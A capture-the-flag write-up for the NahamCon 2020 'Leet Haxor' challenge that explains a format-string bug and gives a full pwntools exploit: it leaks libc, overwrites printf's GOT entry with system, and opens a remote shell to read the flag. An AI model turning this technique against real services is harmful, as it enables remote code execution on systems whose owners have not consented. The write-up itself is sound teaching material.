

# NahamCon CTF 2020

## Leet Haxor

> 200
>
> 4r3 y0u 4s l33t 4s y0u s4y y0u 4r3??? 
>
> Connect here:</br>
> `nc jh2i.com 50022`</br>
>
> [`leet_haxor`](leet_haxor)

Tags: _pwn_ _x86-64_ _format-string_ _remote-shell_


## Summary

Format string exploit challenge with some constraints, infinite free rides, and a guess.


## Analysis

### Checksec

```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

No PIE/Partial RELRO; easy ROP, easy GOT.

    
### Decompile with Ghidra

```c
  puts("Mode [0]:l33tify | [1]:unl33tify | [?]:exit");
  __isoc99_scanf(&DAT_00400c54,&local_7e);
  while ((local_7e == '0' || (local_7e == '1'))) {
    getchar();
    puts("Insert text (Max. 100 chrs):");
    fgets(local_78,100,stdin);
    if (local_7e == '0') {
      l33tify(local_78);
    }
    else {
      unl33tify(local_78);
    }
    puts("Mode [0]:l33tify | [1]:unl33tify | [?]:exit");
    __isoc99_scanf(&DAT_00400c54,&local_7e);
  }
```

`main` loops, prompting `Mode [0]:l33tify | [1]:unl33tify | [?]:exit`, then after selecting `0` or `1`, prompts for up to 100 characters, then calls `l33tify` or `unl33tify` based on whether `0` or `1` was selected.  Nothing to see here.



The `printf` at line 49 is the _first_ venerability.  However the code above will mangle any format-string exploit if there's a matching character.


The `printf` at line 40 is the _second_ venerability.  And like `l33tify` above, there is code that will mess with your exploit string.

Fortunately, it's really not that bad.

Using `%p` to leak libc will not be impacted by `l33tify`.  Like `p`, other format-string attack characters such as `h`, `n`, and `c` have also been spared.

> Normally, I'd use the libc leaks to find the version of libc the remote server is using, but instead I opted to guess.  Using strings on the challenge binary, `GCC: (Ubuntu 7.5.0-3ubuntu1~18.04) 7.5.0` was betrayed.  I took a guess and was right.

Setting a breakpoint just before `printf` in `l33tify` and looking at the stack we find a libc leak, way down at parameter 33:

```
0x00007fffffffe470│+0x0000: 0x00007fffffffe620  →  0x0000000000000001 ← $rsp
0x00007fffffffe478│+0x0008: 0x00007fffffffe4d0  →  0x0000000a34343434 ("4444\n"?)
0x00007fffffffe480│+0x0010: 0x0000000000000000
0x00007fffffffe488│+0x0018: 0x00000006f7a62bcd
0x00007fffffffe490│+0x0020: 0x0000000000000000
0x00007fffffffe498│+0x0028: 0x0000000000000000
0x00007fffffffe4a0│+0x0030: 0x00007fffffffe540  →  0x0000000000400a90  →  <__libc_csu_init+0> push r15	 ← $rbp
0x00007fffffffe4a8│+0x0038: 0x0000000000400a2a  →  <main+149> jmp 0x400a38 <main+163>
0x00007fffffffe4b0│+0x0040: 0x00007fffffffe628  →  0x00007fffffffe824  →  "/pwd/datajerk
0x00007fffffffe4b8│+0x0048: 0x00000001f7ffe710
0x00007fffffffe4c0│+0x0050: 0x0000000000000000
0x00007fffffffe4c8│+0x0058: 0x000a21713a300000
0x00007fffffffe4d0│+0x0060: 0x0000000a34343434 ("4444\n"? ← $rdx, $rsi, $rdi
0x00007fffffffe4d8│+0x0068: 0x00000000756e6547 ("Genu"?)
0x00007fffffffe4e0│+0x0070: 0x0000000000000009
0x00007fffffffe4e8│+0x0078: 0x00007ffff7dd7660  →  <dl_main+0> push rbp
0x00007fffffffe4f0│+0x0080: 0x00007fffffffe558  →  0x00007fffffffe628  →  0x00007fffffffe824  
0x00007fffffffe4f8│+0x0088: 0x0000000000f0b5ff
0x00007fffffffe500│+0x0090: 0x0000000000000001
0x00007fffffffe508│+0x0098: 0x0000000000400add  →  <__libc_csu_init+77> add rbx, 0x1
0x00007fffffffe510│+0x00a0: 0x00007ffff7de59a0  →  <_dl_fini+0> push rbp
0x00007fffffffe518│+0x00a8: 0x0000000000000000
0x00007fffffffe520│+0x00b0: 0x0000000000400a90  →  <__libc_csu_init+0> push r15
0x00007fffffffe528│+0x00b8: 0x0000000000400640  →  <_start+0> xor ebp, ebp
0x00007fffffffe530│+0x00c0: 0x00007fffffffe620  →  0x0000000000000001
0x00007fffffffe538│+0x00c8: 0x7e99182cebfbc400
0x00007fffffffe540│+0x00d0: 0x0000000000400a90  →  <__libc_csu_init+0> push r15
0x00007fffffffe548│+0x00d8: 0x00007ffff7a05b97  →  <__libc_start_main+231> mov edi, eax
```

> The 6th parameter starts at `$rsp`, then count down (parameters 1-5 are in registers).  Or just test until you get a match.  You do have infinite retries.

We also need to know what parameter our format string is located at, again starting from the top and counting down you'll notice `4444` at parameter 18.  That `4444` was actually entered as `AAAA`, but it got _l33tified_ (lamified).

And that is all the information we need.


## Exploit

### Attack Plan

1. First Pass: Leak libc address
2. Second Pass: GOT `printf` -> `system`
3. Final Pass: Get a shell, get the flag


### Setup

```python
#!/usr/bin/python3

from pwn import *

#p = process('./leet_haxor')
p = remote('jh2i.com', 50022)

binary = ELF('leet_haxor')
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
context.update(arch='amd64')
offset = 18
```

_Guessing_ Ubuntu 18.04, I just used an 18.04 container with the native libc.

The `offset` of `18` was determined above in the _Analysis_ section.  This will be required by the pwntools `fmtstr_payload` function.


### First Pass: Leak libc address

```python
p.recvuntil('Mode [0]:l33tify | [1]:unl33tify | [?]:exit')
p.sendline('0')
p.recvuntil('Insert text (Max. 100 chrs):')
p.sendline('%33$p')
p.recvline()

__libc_start_main = int(p.recvline().strip(),16) - 231
print('__libc_start_main',hex(__libc_start_main))
baselibc = __libc_start_main - libc.symbols['__libc_start_main']
print('baselibc',hex(baselibc))
libc.address = baselibc
```

The 33rd parameter to `printf` will leak a libc address (`__libc_start_main+231`) from the stack:

```
0x00007fffffffe548│+0x00d8: 0x00007ffff7a05b97  →  <__libc_start_main+231> mov edi, eax
```

After that, it's easy to compute the libc base address.


### Second Pass: GOT `printf` -> `system`

```python
p.recvuntil('Mode [0]:l33tify | [1]:unl33tify | [?]:exit')
p.sendline('0')
p.recvuntil('Insert text (Max. 100 chrs):')

payload = fmtstr_payload(offset,{binary.got['printf']:libc.symbols['system']})

badchars = b'AaBbEeGgIiOoSsTtZz\r\n'
if any(x in payload for x in badchars):
    print("badchar in payload! exiting!\n")
    sys.exit(1)

p.sendline(payload)
```

pwntools provides very nice format-string functions; calling `fmtstr_payload` with our `offset`, and the addresses to GOT `printf` and libc `system` is all we need, however there's the possibility, due to ASLR, that one of the address could have a "badchar"; to avoid failure, check first.

> I probably should have labeled `badchars` as `l33tchars` for readability.  The `\r\n` are for `fgets`.


### Final Pass: Get a shell, get the flag

```python
p.recvuntil('Mode [0]:l33tify | [1]:unl33tify | [?]:exit')
p.sendline('1')
p.recvuntil('Insert text (Max. 100 chrs):')
p.sendline("/bin/sh")
```

Now that `printf` is `system`, just send `/bin/sh`, however this time use `unl33tify` to avoid having the string mangled.


Output:

```bash
# ./exploit.py
[+] Opening connection to jh2i.com on port 50022: Done
[*] '/pwd/datajerk/nahamconctf2020/leet_haxor/leet_haxor'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] '/lib/x86_64-linux-gnu/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
__libc_start_main 0x7f0c3bdddab0
baselibc 0x7f0c3bdbc000
[*] Switching to interactive mode

$ ls
bin  bin.c  flag.txt
$ cat flag.txt
flag{w0w_y0u_4r3_4_l33t_h@x0r}
```
